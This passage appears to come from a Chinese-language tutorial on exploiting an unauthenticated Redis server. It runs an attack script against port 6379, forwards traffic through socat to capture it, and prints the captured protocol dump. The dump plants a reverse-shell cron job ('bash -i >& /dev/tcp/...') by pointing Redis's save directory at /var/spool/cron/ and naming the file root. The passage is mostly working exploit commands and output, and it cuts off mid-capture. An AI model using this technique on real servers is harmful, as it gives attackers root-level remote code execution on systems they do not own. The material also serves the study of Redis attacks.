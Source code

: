 执行脚本命令：
```
bash shell.sh 127.0.0.1 6379
```
想获取Redis攻击的TCP数据包，可以使用socat进行端口转发。转发命令如下：

socat -v tcp-listen:4444,fork tcp-connect:localhost:6379
意思是将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行脚本

bash shell.sh 127.0.0.1 4444
捕获到数据如下：
```

> 2017/10/11 01:24:52.432446  length=85 from=0 to=84
*3\r
$3\r
set\r
$1\r
1\r
$58\r



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1



\r
< 2017/10/11 01:24:52.432685  length=5 from=0 to=4
+OK\r
> 2017/10/11 01:24:52.435153  length=57 from=0 to=56
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$16\r
/var/spool/cron/\r
< 2017/10/11 01:24:52.435332  length=5 from=0 to=4
+OK\r
> 2017/10/11 01:24:52.437594  length=52 from=0 to=51
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$4\r
root\r
< 2017/10/11 01:24:52.437760  length=5 from=0 to=4
+OK\r
> 2017/10/11 01:24:52.439943  length=14 from=0 to=13
*1\r
$4\r
save\r
< 2017/10/11 01:24:52.443318  length=5 from=0 to=4
+OK\r
> 2017/10/11 01:24:52.446034  length=14 from=0 to=13
*1\r
$4\r
```